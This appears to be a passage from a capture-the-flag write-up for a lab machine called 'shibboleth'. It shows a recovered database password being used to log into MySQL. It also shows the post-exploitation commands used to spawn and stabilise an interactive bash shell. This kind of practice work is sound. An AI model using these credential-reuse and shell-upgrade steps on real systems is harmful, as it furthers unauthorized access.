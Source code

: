 <figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>bloooarskybluh</p></figcaption></figure>

We found credentials -> let's try to connect to the mysql interface:

```
mysql -u zabbix -pbloooarskybluh
```

the shell does not give us anything it's pending, so I thought about upgrading it:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

This command uses the Python interpreter to spawn a new Bash shell with a pseudo-terminal (PTY) attached to it. The PTY provides a more interactive and functional shell environment

it did not seem to work so i disconnected and came back to this normal shell:

```
zabbix@shibboleth:/$
```

and upgraded it using the standard `script` trick:

```
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
```
